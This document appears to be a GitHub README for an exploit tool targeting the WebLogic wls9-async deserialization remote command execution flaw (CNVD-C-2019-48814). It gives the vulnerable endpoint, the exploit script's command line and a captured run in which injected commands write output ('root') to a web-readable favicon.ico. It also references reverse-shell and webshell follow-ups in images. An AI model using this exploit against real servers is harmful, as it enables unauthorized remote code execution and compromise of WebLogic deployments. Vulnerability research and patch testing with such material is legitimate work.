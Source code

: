 # CNVD-C-2019-48814
WebLogic wls9-async反序列化远程命令执行漏洞


### 漏洞复现：


```
http://10.10.20.166:7001/_async/AsyncResponseService
```

```
curl -i http://10.10.20.166:7001/_async/favicon.ico
```
##  CNVD-C-2019-48814 Video

[![CNVD-C-2019-48814](https://i.ytimg.com/vi/KEgOrgcLu0s/hqdefault.jpg?sqp=-oaymwEZCNACELwBSFXyq4qpAwsIARUAAIhCGAFwAQ==&rs=AOn4CLCLGk3OZ83msmbe5IgfAq6EFN2Dhw)](https://github.com/jas502n/CNVD-C-2019-48814/blob/master/CNVD-C-2019-48814.mp4)

```
python CNVD-C-2019-48814.py -u  http://10.10.20.166:7001  -p 1.txt

>>>>Common See:

write website favicon.ico
Don't Need RMI Server

http://10.10.20.166:7001/_async/favicon.ico

>>>>Request Success!
status_code:202

C:\Users\CTF\Desktop\weblogic\byte>curl -i http://10.10.20.166:7001/_async/favicon.ico
HTTP/1.1 200 OK
Date: Thu, 25 Apr 2019 14:37:49 GMT
Accept-Ranges: bytes
Content-Length: 5
Last-Modified: Thu, 25 Apr 2019 14:37:45 GMT
X-Powered-By: Servlet/2.5 JSP/2.1

root

```
## Use RMI
![](./python.jpg)

![](./burpsuite.jpg)

###  CVE-2017-10271 No pactch

##### resever_shell
![](./reserve_shell.jpg)
##### command see
![](./command.jpg)
##### webshell
![](./webshell.jpg)

